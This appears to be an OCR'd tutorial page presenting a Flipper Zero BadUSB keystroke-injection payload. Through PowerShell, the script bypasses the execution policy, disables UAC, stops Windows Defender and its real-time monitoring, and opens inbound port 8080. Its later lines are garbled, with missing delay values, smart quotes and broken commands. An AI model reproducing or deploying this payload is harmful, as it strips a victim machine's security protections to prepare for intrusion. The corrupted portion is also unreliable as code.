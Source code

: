 
### **Step 3: (3nd version) Creating the Flipper Zero Payload**

The Flipper Zero will simulate keystrokes to download and execute the PowerShell script. Here’s the BadUSB script:

```
DELAY 1000
GUI r
DELAY 500
STRING powershell.exe -Command "Set-ExecutionPolicy -ExecutionPolicy Bypass -Force"
DELAY 500
ENTER

DELAY 1000
GUI r
DELAY 500
STRING powershell.exe -Command "$regPath = 'HKLM:\\\\SOFTWARE\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Policies\\\\System'; $name = 'EnableLUA'; $value = 0; New-ItemProperty -Path $regPath -Name $name -Value $value -PropertyType DWORD -Force"
DELAY 500
ENTER

DELAY 1000
GUI r
DELAY 500
STRING powershell.exe -Command "Stop-Service -Name WinDefend -Force; Set-Service -Name WinDefend -StartupType Disabled"
DELAY 500
ENTER

DELAY 1000
GUI r
DELAY 500
STRING powershell.exe -Command "Set-MpPreference -DisableRealtimeMonitoring `$true"
DELAY 500
ENTER

DELAY 1000
GUI r
DELAY 500
STRING powershell.exe -Command "New-NetFirewallRule -DisplayName 'AllowIncoming8080' -Direction Inbound -Protocol TCP -LocalPort 8080 -Action Allow -Enabled True"
-delay 500 
ENTER

delay 1000 
gui r 
delay 500 
string powershell.exe –command “$regPathNP = ‘HKLM:\\\\SOFTWARE\\\\Policies\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\NetworkList’; $nameNP = ‘NC_Signature_Enabled’; $valueNP = ‘0’ ; New-ItemProperty –path $regPathNP –Name $nameNP –Value ”$valueNP”–propertytype dword –force”
delay   enter 

# Your other script logic here...

delay    gui R  
string Powershell .exe  
enter delay    
Delay    string set-MpPreference-disableRealTimeMonitoring `$false   
 Delay    Enter  

```